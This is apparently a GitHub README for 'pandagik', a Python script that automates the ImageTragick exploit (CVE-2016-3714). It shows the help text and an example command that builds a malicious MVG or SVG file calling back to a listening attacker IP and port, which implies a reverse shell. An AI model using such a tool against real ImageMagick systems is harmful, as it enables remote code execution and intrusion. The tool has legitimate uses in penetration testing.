 # pandagik
## Author: [Raphael Dray](https://www.linkedin.com/in/raphaeldray/)
Image Magick Exploit (CVE-2016-3714) automated in Python 3.

### Usage:
```bash
❯ python3 pandagik.py -h
usage: pandagik.py [-h] (--mvg | --svg) LHOST LPORT

ImageTragick Exploit

positional arguments:
  LHOST       Listening IP
  LPORT       Listening Port

options:
  -h, --help  show this help message and exit

File Type:
  --mvg       MVG File
  --svg       SVG File
```

You can either generate a MVG (`--mvg`) or a SVG (`--svg`):
```bash
python3 pandagik.py --mvg 192.168.13.37 1337
```
